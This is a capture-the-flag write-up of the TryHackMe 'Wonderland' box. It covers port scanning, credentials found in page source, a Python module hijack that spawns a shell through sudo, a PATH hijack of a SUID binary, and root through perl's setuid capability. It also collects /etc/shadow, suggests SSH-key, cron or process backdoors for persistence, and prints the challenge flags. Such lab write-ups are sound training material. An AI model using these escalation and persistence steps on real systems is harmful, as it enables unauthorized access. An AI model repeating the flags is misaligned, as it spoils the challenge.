




# Write Up for Try Hack Me box - [Wonderland](https://tryhackme.com/room/wonderland)

First box fot the AlIcE in W0nDErland challenges.\
The way in is a simple password lying in web source notes.\
The PrivEsc has couple of path hijacking and SUDO capabilities. 

> Pratyush Prakhar (5#1NC#4N) - 02/21/2021

## RECONNAISSANCE

1. Scan the box with rustscan.
	1. Full port scan --> [nmap file here](rustscan/all.nmap).

	**Results**

	```bash
	└─$ rustscan -a 10.10.36.81 -- -oN rustscan/initial.nmap             
	.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
	| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
	| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
	`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
	The Modern Day Port Scanner.
	________________________________________
	: https://discord.gg/GFrQsGy           :
	: https://github.com/RustScan/RustScan :
	--------------------------------------
	Real hackers hack time ⌛

	[~] The config file is expected to be at "/home/kali/.rustscan.toml"
	[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
	[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
	Open 10.10.36.81:22
	Open 10.10.36.81:80
	[~] Starting Script(s)
	[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

	[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-20 14:01 EST
	Initiating Ping Scan at 14:01
	Scanning 10.10.36.81 [2 ports]
	Completed Ping Scan at 14:01, 0.21s elapsed (1 total hosts)
	Initiating Parallel DNS resolution of 1 host. at 14:01
	Completed Parallel DNS resolution of 1 host. at 14:01, 0.01s elapsed
	DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
	Initiating Connect Scan at 14:01
	Scanning 10.10.36.81 [2 ports]
	Discovered open port 80/tcp on 10.10.36.81
	Discovered open port 22/tcp on 10.10.36.81
	Completed Connect Scan at 14:01, 0.21s elapsed (2 total ports)
	Nmap scan report for 10.10.36.81
	Host is up, received syn-ack (0.21s latency).
	Scanned at 2024-02-20 14:01:39 EST for 1s

	PORT   STATE SERVICE REASON
	22/tcp open  ssh     syn-ack
	80/tcp open  http    syn-ack
	```

	2. Full Service and Scripts scan on the found ports. --> [nmap file here](rustscan/main.nmap)

	**Results**

	```bash
	└─$ rustscan -p22,80 -a 10.10.36.81 -- -sC -sV -oN rustscan/main.nmap
	.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
	| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
	| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
	`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
	The Modern Day Port Scanner.
	________________________________________
	: https://discord.gg/GFrQsGy           :
	: https://github.com/RustScan/RustScan :
	--------------------------------------
	Nmap? More like slowmap.🐢

	[~] The config file is expected to be at "/home/kali/.rustscan.toml"
	[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
	[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
	Open 10.10.36.81:22
	Open 10.10.36.81:80
	[~] Starting Script(s)
	[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

	[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-20 14:02 EST
	NSE: Loaded 156 scripts for scanning.
	NSE: Script Pre-scanning.
	NSE: Starting runlevel 1 (of 3) scan.
	Initiating NSE at 14:02
	Completed NSE at 14:02, 0.00s elapsed
	NSE: Starting runlevel 2 (of 3) scan.
	Initiating NSE at 14:02
	Completed NSE at 14:02, 0.00s elapsed
	NSE: Starting runlevel 3 (of 3) scan.
	Initiating NSE at 14:02
	Completed NSE at 14:02, 0.00s elapsed
	Initiating Ping Scan at 14:02
	Scanning 10.10.36.81 [2 ports]
	Completed Ping Scan at 14:02, 0.21s elapsed (1 total hosts)
	Initiating Parallel DNS resolution of 1 host. at 14:02
	Completed Parallel DNS resolution of 1 host. at 14:02, 0.01s elapsed
	DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
	Initiating Connect Scan at 14:02
	Scanning 10.10.36.81 [2 ports]
	Discovered open port 22/tcp on 10.10.36.81
	Discovered open port 80/tcp on 10.10.36.81
	Completed Connect Scan at 14:02, 0.21s elapsed (2 total ports)
	Initiating Service scan at 14:02
	Scanning 2 services on 10.10.36.81
	Completed Service scan at 14:02, 12.91s elapsed (2 services on 1 host)
	NSE: Script scanning 10.10.36.81.
	NSE: Starting runlevel 1 (of 3) scan.
	Initiating NSE at 14:02
	Completed NSE at 14:02, 5.98s elapsed
	NSE: Starting runlevel 2 (of 3) scan.
	Initiating NSE at 14:02
	Completed NSE at 14:02, 0.83s elapsed
	NSE: Starting runlevel 3 (of 3) scan.
	Initiating NSE at 14:02
	Completed NSE at 14:02, 0.00s elapsed
	Nmap scan report for 10.10.36.81
	Host is up, received syn-ack (0.21s latency).
	Scanned at 2024-02-20 14:02:15 EST for 20s

	PORT   STATE SERVICE REASON  VERSION
	22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
	| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDe20sKMgKSMTnyRTmZhXPxn+xLggGUemXZLJDkaGAkZSMgwM3taNTc8OaEku7BvbOkqoIya4ZI8vLuNdMnESFfB22kMWfkoB0zKCSWzaiOjvdMBw559UkLCZ3bgwDY2RudNYq5YEwtqQMFgeRCC1/rO4h4Hl0YjLJufYOoIbK0EPaClcDPYjp+E1xpbn3kqKMhyWDvfZ2ltU1Et2MkhmtJ6TH2HA+eFdyMEQ5SqX6aASSXM7OoUHwJJmptyr2aNeUXiytv7uwWHkIqk3vVrZBXsyjW4ebxC3v0/Oqd73UWd5epuNbYbBNls06YZDVI8wyZ0eYGKwjtogg5+h82rnWN
	|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHH2gIouNdIhId0iND9UFQByJZcff2CXQ5Esgx1L96L50cYaArAW3A3YP3VDg4tePrpavcPJC2IDonroSEeGj6M=
	|   256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAsWAdr9g04J7Q8aeiWYg03WjPqGVS6aNf/LF+/hMyKh
	80/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
	|_http-title: Follow the white rabbit.
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	NSE: Script Post-scanning.
	NSE: Starting runlevel 1 (of 3) scan.
	Initiating NSE at 14:02
	Completed NSE at 14:02, 0.00s elapsed
	NSE: Starting runlevel 2 (of 3) scan.
	Initiating NSE at 14:02
	Completed NSE at 14:02, 0.00s elapsed
	NSE: Starting runlevel 3 (of 3) scan.
	Initiating NSE at 14:02
	Completed NSE at 14:02, 0.00s elapsed
	```

2. There are **3 TCP** ports open. 
	1. *Port 22* - SSH - **OpenSSH 7.6p1** 
	2. *Port 80* - WEB - **Golang net/http server**

3. Let's explore WEB part first. Then we can use SSH.

## WEB

1. Let's first check out the web server on port 80. 
	1. We get a default page with no links going out. - Default HTML page. IT is based on the theme of *Alice in the Wonderland*.
	\
	
	2. We will go for the low hanging fruit - robots, page source and try to get some information. Nothing useful here

2. We try to heck out the directory listing. [The bruteforce file](web/ferox.txt) has some interesting files.
	1. First there is a `poem` page which contains `The Jabberwocky`. 
	\
	
	2. We see a `rabbit hole` going as `/r/a/b/b/i/t/` subdirectory. In the page source, we find interesting set of creds. Let's throw it at other services as no login page is found.
	\
	
	\
	

## INITIAL ACCESS - SSH - ALICE

1. We get into the system as `alice`. On exploring we find that our directory doesn't contain user flag but the root flag. @( . It is all upside down as root will have the user flag. 

```bash
alice@wonderland:~$ pwd
/home/alice
alice@wonderland:~$ id
uid=1001(alice) gid=1001(alice) groups=1001(alice)
alice@wonderland:~$ l s-la
ls: cannot access 's-la': No such file or directory
alice@wonderland:~$ ls -la
total 40
drwxr-xr-x 5 alice alice 4096 May 25  2020 .
drwxr-xr-x 6 root  root  4096 May 25  2020 ..
lrwxrwxrwx 1 root  root     9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 alice alice  220 May 25  2020 .bash_logout
-rw-r--r-- 1 alice alice 3771 May 25  2020 .bashrc
drwx------ 2 alice alice 4096 May 25  2020 .cache
drwx------ 3 alice alice 4096 May 25  2020 .gnupg
drwxrwxr-x 3 alice alice 4096 May 25  2020 .local
-rw-r--r-- 1 alice alice  807 May 25  2020 .profile
-rw------- 1 root  root    66 May 25  2020 root.txt
-rw-r--r-- 1 root  root  3577 May 25  2020 walrus_and_the_carpenter.py
```

2. Now let's try to get fish around and either jump or escalate to some other worthwhile user as holt has nothing. We found in low hanging fruit `sudo -l`.

```bash
alice@wonderland:~$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

3. We find the following. 
	1. A `walrus_and_the_carpenter.py` that prints random line from a possible poem.
	2. But this script can be run as rabbit as seen above.
	2. Explained [here](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/#sudo-privesc), we can **hijack the relative path of the random module** by creating our malicious script to be included.

```bash
alice@wonderland:~$ cat walrus_and_the_carpenter.py 
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night.
..................................
alice@wonderland:/tmp$ ls -la
total 432
drwxrwxrwt 10 root  root    4096 Feb 20 19:29 .
drwxr-xr-x 23 root  root    4096 May 25  2020 ..
drwxrwxrwt  2 root  root    4096 Feb 20 18:57 .ICE-unix
drwxrwxrwt  2 root  root    4096 Feb 20 18:57 .Test-unix
drwxrwxrwt  2 root  root    4096 Feb 20 18:57 .X11-unix
drwxrwxrwt  2 root  root    4096 Feb 20 18:57 .XIM-unix
drwxrwxrwt  2 root  root    4096 Feb 20 18:57 .font-unix
-rw-rw-r--  1 alice alice 100451 Feb 20 19:24 linpeas-alice.out
-rwxr-xr-x  1 alice alice 293889 Feb 20 19:20 linpeas.sh
-rw-r--r--  1 alice alice     33 Feb 20 19:27 random.py
alice@wonderland:~$ cat random.py 
import os
os.system("/bin/bash -i")
```

## HORIZONTAL ESC - RABBIT

1. On running the script, we get in as the user `rabbit`.

```bash
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
$ whoami
rabbit
$ bash
rabbit@wonderland:~$ ls
```

2. We can now move around to find that there is an SUID executable in the `rabbit's home dir`. This can we our way in. We can 't read it ont he machine as the *strings is broken*. Let's explore it on our end.

3. Going through the [file](ssh/rabbit/teaParty), we find that we include a `date` binary without an absolute path. We can include our own malicious date with `PATH` variable hijacking.

```bash
rabbit@wonderland:/tmp$ touch date
rabbit@wonderland:/tmp$ vim date 
rabbit@wonderland:/tmp$ chmod +x date 
rabbit@wonderland:/tmp$ which date 
/tmpdate
rabbit@wonderland:/tmp$ echo $PATH 
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
rabbit@wonderland:/tmp$ which da
dash  date  
rabbit@wonderland:/tmp$ which date 
/tmp/date
rabbit@wonderland:/tmp$ cd 
rabbit@wonderland:~$ ls
teaParty
rabbit@wonderland:~$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:~$ whoami
hatter
```

## HORIZONTAL ESC - HATTER

1. We get the plaintext password lying around in the home directory. We can login using these creds on the machine to get a full fledged shell.

2. Basic things din't return any path to escalate. 

3. Ran through the linpeas results and found that `perl` have SUDO Capabilities - *CAP_SETUID*. We can use the [following](https://gtfobins.github.io/gtfobins/perl/#capabilities) to escalate to root. To also gain more knowledge, here is some [help](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_setuid).

```bash
[+] Capabilities
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities                            
Current capabilities:                                                                                   
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

Shell capabilities:
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

Files with capabilities:
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

## PRIVESC

1. Using the above method, we escalate to root. Now the keys are ours and so is the kingdom. Let's get on with the loot.

```bash
root@wonderland:/tmp# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
root@wonderland:/tmp# cd /root/
root@wonderland:/root# ls
user.txt
root@wonderland:/root# cat user.txt 
thm{"Curiouser and curiouser!"}
root@wonderland:/root# cd /home/alice/
root@wonderland:/home/alice# cat root.txt 
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
```

## EXTRA TREAT 

1. We can now obtain the [following files](ssh/etc) easily that can be used later.
	1. **/etc/passwd**
	2. **/etc/shadow**
	3. **/etc/hosts**
	4. **/etc/sudoers**
	5. **/etc/crontab**
	6. **/etc/ssh/sshd_config**
	7. **/etc/ssh/ssh_config**

2. We can also add [our *ssh keys*](ssh/keys) to `authorized_keys` to get a foothold on the box. You can use other methods like crons and process hijacking as well to plant a backdoor.

3. Find out more with the linpeas scans that can be obtained [here](ssh/tmp).

4. We can now go around and do wonders. MAybe find the Queen and **OFF WITH HER HEAD**.

## BROWNIE HATS

1. User.txt - **thm{"Curiouser and curiouser!"}**

2. root.txt - **thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}**

**Stay Tuned On**\
[GitHub](https://github.com/pratty010/Boxes)\
[LinkedIn](https://www.linkedin.com/in/pratyush-prakhar/)